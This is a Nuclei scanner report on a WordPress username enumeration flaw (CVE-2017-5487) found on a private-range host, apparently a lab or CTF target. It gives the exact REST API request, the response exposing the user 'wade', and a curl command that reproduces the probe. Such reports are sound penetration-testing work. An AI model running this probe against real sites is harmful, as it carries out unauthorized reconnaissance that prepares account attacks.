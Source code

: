 ### WordPress Core <4.7.1 - Username Enumeration (CVE-2017-5487:usernames) found on http://10.10.221.6/retro
---
**Details**: **CVE-2017-5487:usernames**  matched at http://10.10.221.6/retro

**Protocol**: HTTP

**Full URL**: http://10.10.221.6/retro/?rest_route=/wp/v2/users/

**Timestamp**: Fri Jun 16 19:32:41 +0100 BST 2023

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Core <4.7.1 - Username Enumeration |
| Authors | manas_harsh, daffainfo, geeknik, dr0pd34d |
| Tags | cve, cve2017, wordpress, wp, edb |
| Severity | medium |
| Description | WordPress Core before 4.7.1 is susceptible to user enumeration because it does not properly restrict listings of post authors via wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API, which allows a remote attacker to obtain sensitive information via a wp-json/wp/v2/users request. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| CWE-ID | [CWE-200](https://cwe.mitre.org/data/definitions/200.html) |
| CVE-ID | [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-5487) |
| CVSS-Score | 5.30 |
| shodan-query | http.component:"WordPress" |

**Request**
```http
GET /retro/?rest_route=/wp/v2/users/ HTTP/1.1
Host: 10.10.221.6
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 541
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages
Allow: GET
Content-Type: application/json; charset=UTF-8
Date: Fri, 16 Jun 2023 18:32:10 GMT
Link: <http://localhost/retro/index.php/wp-json/>; rel="https://api.w.org/"
Server: Microsoft-IIS/10.0
X-Content-Type-Options: nosniff
X-Powered-By: PHP/7.1.29
X-Robots-Tag: noindex
X-Wp-Total: 1
X-Wp-Totalpages: 1

[{"id":1,"name":"Wade","url":"","description":"","link":"\/retro\/index.php\/author\/wade\/","slug":"wade","avatar_urls":{"24":"http:\/\/2.gravatar.com\/avatar\/ef1d549bad4370c8941c9e9f4e6deb2a?s=24&d=mm&r=g","48":"http:\/\/2.gravatar.com\/avatar\/ef1d549bad4370c8941c9e9f4e6deb2a?s=48&d=mm&r=g","96":"http:\/\/2.gravatar.com\/avatar\/ef1d549bad4370c8941c9e9f4e6deb2a?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"\/retro\/index.php\/wp-json\/wp\/v2\/users\/1"}],"collection":[{"href":"\/retro\/index.php\/wp-json\/wp\/v2\/users"}]}}]
```

**Extra Information**

**Extracted results**:

- wade
- Wade


References: 
- https://www.exploit-db.com/exploits/41497
- https://www.wordfence.com/blog/2016/12/wordfence-blocks-username-harvesting-via-new-rest-api-wp-4-7/
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/
- https://nvd.nist.gov/vuln/detail/cve-2017-5487

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2762.73 Safari/537.36' 'http://10.10.221.6/retro/?rest_route=/wp/v2/users/'
```
---
Generated by [Nuclei v2.9.4](https://github.com/projectdiscovery/nuclei)